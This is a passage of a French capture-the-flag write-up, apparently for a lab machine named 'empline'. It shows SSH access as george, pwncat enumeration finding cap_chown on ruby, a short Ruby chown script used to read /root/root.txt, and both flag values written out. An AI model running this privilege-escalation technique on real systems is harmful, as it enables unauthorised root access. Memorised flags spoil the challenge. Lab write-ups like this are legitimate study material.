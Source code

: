 On se connecte sur le compte SSH de george.   
On voit un fichier user.txt
On le lit et on a le flag qui est : 91cb89c70aa2e5ce0e0116dab099078e  

**Root.txt**  

```bash
(local) pwncat$ run enumerate
Module 'enumerate' Results
- /usr/local/bin/ruby -> [cap_chown+ep]
```

powcat nous montre que ruby a la capacité de changer les droits.  

```bash
(remote) george@empline:/home/george$ echo 'File.chown(1002, nil, "/root/")' > exploit.rb
(remote) george@empline:/home/george$ echo 'File.chown(1002, nil, "/root/root.txt")' >> exploit.rb
(remote) george@empline:/home/george$ ruby exploit.rb
(remote) george@empline:/home/george$ cat /root/root.txt
74fea7cd0556e9c6f22e6f54bc68f5d5
```

Je dit a ruby de modifier les droits pour pouvoir lire root.txt.  
Un foit l'exploit exécuté,on lit le flag.   
Le flag est : 74fea7cd0556e9c6f22e6f54bc68f5d5   

